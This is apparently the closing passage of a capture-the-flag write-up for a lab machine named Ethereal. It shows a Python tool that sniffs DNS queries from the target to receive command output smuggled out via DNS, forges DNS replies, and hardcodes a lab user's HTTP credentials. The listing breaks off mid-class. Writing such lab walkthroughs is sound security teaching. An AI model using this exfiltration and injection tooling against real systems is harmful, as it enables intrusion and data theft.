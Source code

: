 
Or exiting:

    
    
    ethereal> exit
    [*] Sending kill request.
    [*] Received kill packet. Shutting down sniffer thread.
    

## Full Code

The final code is below, and I’ll post it on [my scripts git
repo](https://gitlab.com/0xdf/ctfscripts).

    
    
      1 #!/usr/bin/env python3
      2 
      3 import requests
      4 import sys
      5 import time
      6 from bs4 import BeautifulSoup
      7 from cmd import Cmd
      8 from requests.auth import HTTPBasicAuth
      9 from scapy.all import *
     10 from threading import Thread
     11 
     12 
     13 kill_domain = "0xdf.0xdf."
     14 
     15 
     16 class dns_sniff(Thread):
     17 
     18     def __init__(self, interface='tun0', target_ip='10.10.10.106'):
     19         super().__init__()
     20         self.interface = interface
     21         self.target_ip = target_ip
     22 
     23 
     24     def run(self):
     25         print(f"[*] Starting DNS Sniffer on {self.interface} for target {self.target_ip}.")
     26         sniff(iface=self.interface, filter=f"src host {self.target_ip} and udp port 53",
     27                 prn=self.parse_packet, stop_filter=lambda p: p.haslayer(DNS) and
     28                 p.getlayer(DNS).qd.qname.decode('utf-8') == kill_domain)
     29         print(f"[*] Received kill packet. Shutting down sniffer thread.")
     30 
     31 
     32     def parse_packet(self, p):
     33         if p.haslayer(DNS) and p.getlayer(DNS).qd.qtype == 1:
     34             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
     35             if domain == kill_domain: return
     36             print(domain[1:-2].replace('X.Q',' ').strip())
     37             reply = IP(dst=p[IP].src)/UDP(dport=p[UDP].sport, sport=53)/DNS(id=p[DNS].id,
     38                     ancount=1, an=DNSRR(rrname=p[DNSQR].qname, rdata='127.0.0.1')/DNSRR(rrname=domain,
     39                     rdata='127.0.0.1'))
     40             send(reply, verbose=0, iface=self.interface)
     41 
     42 class Terminal(Cmd):
     43     prompt = "ethereal> "
     44 
     45 
     46     def __init__(self, proxy=None):
     47         super().__init__()
     48         self.proxy = proxy or {}
     49         self.auth = HTTPBasicAuth('alan','!C414m17y57r1k3s4g41n!')